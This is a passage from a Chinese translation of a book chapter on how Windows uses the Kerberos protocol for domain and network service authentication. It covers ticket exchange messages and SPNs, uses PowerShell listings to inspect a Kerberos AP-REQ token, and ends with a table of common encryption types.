










## 14 KERBEROS


在 Windows 2000 中，Kerberos 身份验证协议取代了 Netlogon，成为域控制器上验证用户的主要机制。本章将在 第十二章 关于交互式域身份验证的描述基础上，解释用户如何使用 Kerberos 对 Windows 域进行身份验证。

我们将从了解 Kerberos 的工作原理开始，包括如何生成协议中使用的加密密钥，以及如何解密 Kerberos 身份验证令牌。一旦你理解了协议的内部工作原理，我们将介绍身份验证的委托以及 Kerberos 在用户间身份验证协议中的作用。

Kerberos 最初是在 1980 年代由麻省理工学院（MIT）开发的。微软使用该协议的第 5 版，该版本在 1993 年通过 RFC1510 正式化，之后在 2005 年通过 RFC4120 更新。微软还对协议进行了一些修改，以支持自身的需求；我将在本章中提到其中一些更改。

### 与 Kerberos 的交互式身份验证

作为其主要功能，Kerberos 分发*票证*，每个票证代表一个经过验证的用户身份。系统可以利用这个身份来决定用户是否可以访问某个服务，比如文件服务器。例如，如果用户在请求打开文件时发送了他们的票证，文件服务器可以检查其有效性，然后通过类似访问检查的方式决定是否授予用户访问权限。

Kerberos 提供了一种方法，通过不受信任的网络安全地分发这些票证，并允许验证这些票证。它通过使用共享的加密密钥来做到这一点，这些密钥通常是从用户的密码中派生出来的，用来加密和验证票证。Active Directory 服务器从不以明文形式存储密码；它只存储加密密钥。

#### 初始用户身份验证

图 14-1 显示了客户端计算机与运行*密钥分发中心（KDC）*服务的域控制器之间的初始 Kerberos 用户身份验证过程。KDC 向用户发放 Kerberos 票证，并管理会话加密密钥。



图 14-1：Kerberos 身份验证概述

当 LSA 处理登录请求时，它首先基于用户的密码和盐值❶推导出共享的加密密钥。它根据诸如用户名和领域等值生成盐值，这些值取决于所使用的加密算法类型。我们使用*领域*这个术语来描述 Kerberos 认证的范围。在 Windows 中，领域是包含用户的域的 DNS 名称，例如*mineral.local*。我们可以将用户名和领域组合起来形成用户主体名称，通常用@符号表示，如*user@mineral.local*。

然后 LSA 生成一个*认证服务请求（AS-REQ）*消息，并通过网络将其发送到认证服务器 ❷。认证服务器是 KDC 的一个部分，负责向认证过程发放初始票证。AS-REQ 消息包含用户名和领域以及*预认证数据*，该数据由当前时间和用户共享的加密密钥加密组成。认证服务器可以通过指定的用户名和领域在其密钥数据库中查找共享密钥，然后使用该密钥解密预认证数据❸。如果解密成功，证明数据确实来自用户，因为只有服务器和客户端知道共享的加密密钥。

认证服务器接着生成一个*票证授予票证（TGT）*，并用为特殊用户*krbtgt*的共享加密密钥对其进行加密。认证用户并不知道*krbtgt*用户的共享密钥，因此无法解密该票证。尽管 TGT 有一个特殊的名称，但它本质上只是一个验证用户身份的票证，用于验证用户向*票证授予服务器（TGS）*的身份，TGS 负责为用户颁发票证，以便用户向网络服务进行认证。该票证包含了用户身份的详细信息，这些信息编码在*特权属性证书（PAC）*中，以及一个为 TGS 使用的随机生成的会话密钥。我们将在“解密 AP-REQ 消息”中看到 PAC 的示例，详见第 469 页。

认证服务器还生成第二个数据值，并使用用户共享的加密密钥对其进行加密。这个值在解密后包含关于票证的详细信息，例如票证的有效期。最终，票证会过期，用户需要请求一个新的 TGT。这个第二个值还包含了会话加密密钥，已加密在票证中。认证服务器将加密的票证和票证信息打包成*认证服务回复（AS-REP）*消息，并将其发送回客户端 LSA ❹。图 14-2 总结了该消息的格式。



图 14-2：AS-REP 消息格式

一旦 LSA 接收到 AS-REP，它可以解密并从加密的票证信息中提取会话密钥，使用用户的共享加密密钥。成功解密还表明 LSA 正在与正确的认证服务器通信，因为其他服务器不会知道用户的共享密钥。

但是 LSA 仍然不知道用户的所有信息，因为这些信息存储在 PAC 中，并且 PAC 在票证中被加密。为了获取 PAC，LSA 必须向 TGS 请求自己的票证❺。为此，LSA 将不能更改的 TGT 与要访问的服务的*服务主体名称 (SPN)* 打包在一起。SPN 的格式如下：

服务类/实例名/服务名

*服务类*是要使用的服务类型。*实例名称*是服务正在运行的主机名或网络地址。最后，*服务名称*是用于消除同一主机上类似服务的歧义的可选值。为了请求自己的票证，LSA 必须将服务类设置为HOST，将实例名称设置为当前主机，例如*graphite.mineral.local*。当转换为字符串时，这将创建以下 SPN：HOST/graphite.mineral.local。

或许你还记得，在第十三章中我们使用了这种字符串格式来指定 NTLM 认证的目标名称。事实上，Windows 从 Kerberos 中采用了这种格式，并将其应用于 NTLM 以试图抵御 NTLM 中继攻击。

为确保服务器可以验证其请求，LSA 还将生成 TGT 的加密哈希值。此哈希值包括 SPN、时间戳和唯一序列号，所有这些都使用 AS-REP 的加密数据值中的会话密钥加密。这额外的加密值称为*认证者*。TGT、SPN 和认证者被打包在一个*票证授予服务请求 (TGS-REQ)* 消息中，并发送到 TGS。图 14-3 总结了此消息的格式。



图 14-3：TGS-REQ 消息格式

TGS 接收到 TGS-REQ 消息，并因为知道*krbtgt*用户的共享加密密钥，可以解密 TGT。这使得它能够提取用户的详细信息以及会话密钥。然后，它可以验证票证是否已过期或无效（如果用户未被允许对域或服务进行身份验证，则会出现这种情况）。

TGS 可以使用票证中的会话密钥解密认证器，并验证哈希值与相关信息是否匹配。这个过程确保只有具有共享加密密钥的用户才能从 AS-REP 中提取会话密钥，并加密该 TGT 的认证器内容。然后，TGS 验证时间戳是否是最近的。通常，如果时间戳超过五分钟，它会拒绝该请求。因此，客户端和服务器系统的时钟同步对于 Kerberos 认证至关重要。TGS 还会检查它是否已经见过该票证的序列号。此检查可以防止重放攻击，在重放攻击中，TGS-REQ 被多次发送。

如果所有检查通过，TGS 可以在密钥数据库中查找 SPN 以检索加密密钥。从技术上讲，每个 SPN 都可以有自己的加密密钥，但 Active Directory 通常只是将这些 SPN 映射到用户或计算机帐户。例如，HOST/graphite.mineral.local SPN 映射到 *GRAPHITE* 机器的计算机帐户。你可以使用 setspn 工具或 Get-ADComputer PowerShell 命令查询帐户映射到的 SPN，如 清单 14-1 所示。

```
PS> **Get-ADComputer -Identity $env:COMPUTERNAME -Properties ServicePrincipalNames |** **Select-Object -ExpandProperty ServicePrincipalNames**
HOST/GRAPHITE
TERMSRV/GRAPHITE.mineral.local
RestrictedKrbHost/GRAPHITE.mineral.local
HOST/GRAPHITE.mineral.local
TERMSRV/GRAPHITE
RestrictedKrbHost/GRAPHITE 
```

清单 14-1：枚举映射到当前计算机帐户的 SPN

假设主机存在，TGS 可以提取它将生成的 HOST 服务票证的共享加密密钥。如果你返回到 图 14-1，你会看到 TGS 将从解密的 TGT 中复制 PAC 到这个新票证中，并使用服务主体名称 (SPN) ❻ 的会话密钥对其进行加密。TGS 生成与 AS-REP 相同的加密数据，包括供服务使用的会话密钥。然后，它将新票证和加密值打包到 *票证授予服务回复 (TGS-REP)* 中并返回给客户端 ❼。图 14-4 总结了 TGS-REP 消息的格式。



图 14-4：TGS-REP 消息格式

LSA 现在可以验证它是否能够解密票证的内容，并确保票证针对它请求的 HOST SPN。特别地，作为 图 14-1 中的最后一步，它使用 PAC 创建新用户的 Token 对象 ❽。这完成了认证过程。用户现在已通过认证，系统可以开始其登录会话、控制台会话和进程。

#### 网络服务认证

一旦用户通过本地机器认证，LSA 必须缓存以下信息，才能让用户与网络上的其他服务进行通信：用户的共享加密密钥（基于其密码）、TGT（用于请求其他服务票据）以及 TGT 会话密钥。

上一章讨论的 SSPI API 包含一个 Kerberos 安全包，处理网络服务认证过程，以根据其 SPN 获取有效的网络服务票据。图 14-5 提供了获取网络服务票据的过程概述。



图 14-5：Kerberos 网络服务认证

该认证过程涉及三个系统：客户端、服务器和 KDC。客户端首先调用 InitializeSecurityContext SSPI API，使用用户凭据和网络服务的 SPN ❶。

在 图 14-5 中，我们假设作为已认证用户，凭借缓存的 TGT 发起认证请求。如果不是，并且我们已经指定了用户名和密码，则 LSA 需要通过遵循上一节概述的认证过程来获取该用户的 TGT。如果 LSA 已有有效的 TGT，它可以向 TGS 请求一个新的票据，目标为指定的 SPN ❷。

然后，TGS 验证 TGT 是否有效，并检查调用者是否知道会话密钥，TGS 可以通过用户共享密钥来提取该密钥。一旦验证通过，TGS 查找目标 SPN 的共享加密密钥。如果 SPN 不存在或用户不允许使用该服务，则返回错误，LSA 会将此错误报告给调用者。如果一切正常，TGS 会生成带有新票据的 TGS-REP 消息，并将其返回给客户端的 LSA ❸。

与原始 TGT 相似，TGS 使用客户端不应能访问的密钥加密票据。然而，它使用 TGT 会话密钥加密额外的加密值，LSA 可以解密该密文。此加密值包含与服务通信的会话密钥。LSA 获取票据并生成一个使用服务会话密钥加密的认证器，然后将票据和认证器打包成 *认证协议请求 (AP-REQ)* 消息。该消息的结构与 TGS-REQ 消息基本相同，但请求是发送给服务而不是 TGS。

LSA 将这个 AP-REQ 返回给用户 ❹。此时，客户端应用程序重新控制认证过程，并可以将 AP-REQ 封装进网络协议并传输给服务器 ❺。服务器提取 AP-REQ，并通过 AcceptSecurityContext API 将其传递给自己的 LSA ❻。

服务器上的 LSA 应该已经拥有缓存票证的共享加密密钥。通常会将 SPN 绑定到 *本地系统* 用户使用的计算机帐户。因此，任何特权服务（如 SMB 服务器）都应该能够访问解密票证所需的计算机密码。如果该服务以某个用户身份运行，则系统必须在接受票证之前为该用户配置 SPN 映射。

假设它能解密并验证票证，服务器的 LSA 将从票证中提取 PAC 并为用户构建本地令牌。PAC 包含签名，服务器可以用来验证其未被篡改。此外，选项验证过程可以确保 PAC 是由 KDC 发出的。网络服务现在可以使用生成的令牌来模拟认证用户 ❼。

图 14-5 中的最后一步是可选的。默认情况下，服务器不需要向客户端返回任何内容来完成认证；它已经拥有解密票证所需的所有内容，并可以让服务访问用户的身份。然而，你可能希望确保你所联系的服务器知道票证的密钥并且没有撒谎。服务器证明它知道加密密钥的一种方式是使用票证的会话密钥加密或签名某些内容并将其返回给客户端。我们将这种做法称为 *互相认证*。

Kerberos 使用 *认证协议回复（AP-REP）* 消息将加密值发送回客户端 ❽。AP-REP 消息包含与 AP-REQ 中发送的认证器值类似的值，但其格式稍有不同，因为它使用会话密钥进行了加密。由于只有有效的票证接收者才能解密会话密钥以加密认证器，因此这验证了服务器的身份。

### 在 PowerShell 中执行 Kerberos 认证

我们可以从 PowerShell 中观察到网络服务认证过程的哪些部分呢？让我们一探究竟。我们将从获取凭据句柄开始，如 清单 14-2 所示。

```
❶ PS> **$credout = New-LsaCredentialHandle -Package "Kerberos" -UseFlag Outbound**
❷ PS> **$spn = "HOST/$env:COMPUTERNAME"**
PS> **$client = New-LsaClientContext -CredHandle $credout** **-Target $spn**
PS> **Format-LsaAuthToken -Token $client.Token**
❸ <KerberosV5 KRB_AP_REQ>
Options         : None
<Ticket>
Ticket Version  : 5
❹ ServerName      : SRV_INST - HOST/GRAPHITE
Realm           : MINERAL.LOCAL
❺ Encryption Type : AES256_CTS_HMAC_SHA1_96
❻ Key Version     : 1
Cipher Text     :
00000000: B2 9F B5 0C 7E D9 C4 7F 4A DA 19 CB B4 98 AD 33
00000010: 20 3A 2E C3 35 0B F3 FE 2D FF A7 FD 00 2B F2 54
`--snip--`
00000410: B7 52 F1 0C 7F 0A C8 5E 87 AD 54 4A
❼ <Authenticator>
Encryption Type : AES256_CTS_HMAC_SHA1_96
Cipher Text     :
00000000: E4 E9 55 CB 40 41 27 05 D0 52 92 79 76 91 4D 8D
00000010: A1 F2 56 D1 23 1F BF EC 7A 60 14 0E 00 B6 AD 3D
`--snip--`
00000190: 04 D4 E4 5D 18 60 DB C5 FD 
```

清单 14-2：为 Kerberos 设置客户端认证上下文

在这种情况下，我们指定了Kerberos包❶，而不是上一章中使用的NTLM包。一旦我们收到句柄，就可以创建客户端身份验证上下文。为此，我们必须指定一个 SPN 进行身份验证；在这里，我选择了本地计算机上的HOST SPN❷。

此时，LSA 应该使用先前协商的 TGT 获取服务的票证，并发送 TGS-REQ。如果 SPN 不正确或未知，TGS 将返回错误，LSA 将在创建客户端身份验证上下文时将该错误传回给我们。错误将如下所示：

```
(0x80090303) - The specified target is unknown or unreachable 
```

在清单 14-2 中，我们收到的唯一内容是 AP-REQ❸；我们没有收到 TGS-REQ 或 TGS-REP。由于我们已经格式化了 Kerberos 认证令牌的字段，因此只能看到以明文呈现的值。这包括一组选项标志，目前设置为None；其他值则表示请求的各种属性，我们将在讨论配置可选的双向认证时回到这些内容。

票证还包含目标 SPN 和领域❹，服务器需要使用这些信息来选择正确的共享加密密钥。你可以通过存在SRV_INST名称类型来识别 SPN，这表明这是一个服务实例。

接下来，票证指定了加密参数。首先，它列出了用于加密和验证密文的算法。在这种情况下，它使用了 AES 加密文本偷取模式（CTS），并使用 256 位密钥进行加密，同时使用 SHA1 HMAC 并截断为 96 位❺。表 14-1 显示了 Windows 上常用的其他加密算法。

表 14-1： Windows 上的常见 Kerberos 加密类型

| 名称 | 加密 | 验证 |
| --- | --- | --- |
| AES256_CTS_HMAC_SHA1_96 | AES CTS 256 位 | SHA1 HMAC 截断为 96 位 |
| AES128_CTS_HMAC_SHA1_96 | AES CTS 128 位 | SHA1 HMAC 截断为 96 位 |
| DES_CBC_MD5 | DES 56 位 | MD5 HMAC |
| ARCFOUR_HMAC_MD5 | RC4 | MD5 HMAC |

